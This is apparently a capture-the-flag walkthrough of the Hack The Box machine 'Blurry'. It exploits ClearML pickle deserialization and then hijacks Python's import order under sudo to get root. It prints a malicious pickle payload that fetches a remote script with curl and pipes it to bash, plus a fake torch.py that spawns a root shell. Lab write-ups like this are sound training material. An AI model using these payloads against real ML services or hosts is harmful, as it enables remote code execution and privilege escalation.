




# Blurry



Blurry is a medium Linux Hack The Box machine that starts with a ClearML artifact poisoning issue and ends with a sudo abuse path through Python module hijacking. The main ideas are malicious pickle upload for initial access and import-order exploitation for privilege escalation.

## Reconnaissance

I started with an Nmap scan of the target.

```bash
nmap -sC -sV -oA nmap/output 10.10.11.219
```

The scan showed SSH and HTTP:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web server redirected to `app.blurry.htb`, so I added that and the related subdomains to `/etc/hosts`.

## ClearML Setup

Browsing to the web app showed a ClearML landing page. It asked for a name and then gave setup instructions for configuring ClearML locally.





I created a virtual environment, installed the ClearML library, and ran the setup utility with the provided JSON config.

```bash
python3 -m venv venv && source venv/bin/activate
pip install clearml
clearml-init
```

The configuration referenced:

- `api.blurry.htb`
- `files.blurry.htb`

I added those to `/etc/hosts` as well.

After setup, the dashboard showed several recent projects, including `Black Swan`, and some active experiments. There was also a Rocket.Chat instance at `chat.blurry.htb`, but the main target was the ClearML task data.



## Malicious Artifact

One of the recent experiments, `Review JSON Artifacts`, exposed the running script and task details. The important part was that it retrieved artifacts and called `.get()` on them. In ClearML, that can trigger unpickling for serialized objects.

The experiment was tied to the `Black Swan` project and used review-tagged tasks. That gave me the attack idea: create a new task with the `review` tag and upload a malicious pickle artifact.

The payload was a class whose `__reduce__` method runs a system command when unpickled.

```python
from clearml import Task
import os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('curl http://10.10.10.10/shell.sh|bash',))

command = RunCommand()

task = Task.init(project_name='Black Swan',
                 task_name='Run this',
                 tags=['review'],
                 output_uri=True)

task.upload_artifact(name='pickle_artifact',
                     artifact_object=command,
                     wait_on_upload=True,
                     extension_name='.pkl')
```

I hosted `shell.sh` and waited for the review task to process the artifact. When the artifact was fetched and unpickled, the payload executed and gave me a shell as `jippity`.

## User Shell

The shell gave me access to the first flag.

## Privilege Escalation

I checked sudo privileges right away.

```bash
sudo -l
```

That showed:

```text
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

I inspected the script behind `/usr/bin/evaluate_model`. It accepted a model file, extracted it if needed, ran `fickling` checks against any embedded pickle data, and then passed the model to `/models/evaluate_model.py` if it looked safe.

The key detail was that `evaluate_model.py` imports `torch` from the current search path, and the script was being run against files in `/models`. Since I had write access there, I could place my own `torch.py` module in that directory.

The `evaluate_model.py` script looked like this in part:

```python
import torch
import torch.nn as nn
from torchvision import transforms
from torchvision.datasets import CIFAR10
from torch.utils.data import DataLoader, Subset
import numpy as np
import sys
```

Because Python loads modules by search order, a malicious `torch.py` in `/models` would be imported before the real library.

I created a simple malicious module that spawns a shell:

```bash
echo 'import os; os.system("/bin/bash")' > /models/torch.py
```

Then I ran the allowed command with a model file:

```bash
sudo /usr/bin/evaluate_model /models/demo_model.pth
```

The script printed its normal message:

```text
[+] Model /models/demo_model.pth is considered safe. Processing...
```

Then my `torch.py` was imported and I got a root shell.

```text
root@blurry:/models#
```

## Attack Path

- Enumerate the host and find SSH plus a ClearML web app.
- Set up ClearML with the provided configuration.
- Inspect recent experiments and identify pickle deserialization.
- Upload a malicious artifact with a pickled payload.
- Trigger unpickling to get a shell as `jippity`.
- Check sudo permissions and find `/usr/bin/evaluate_model`.
- Abuse Python import order with a malicious `torch.py`.
- Run the permitted model evaluator as root.
- Spawn a root shell.

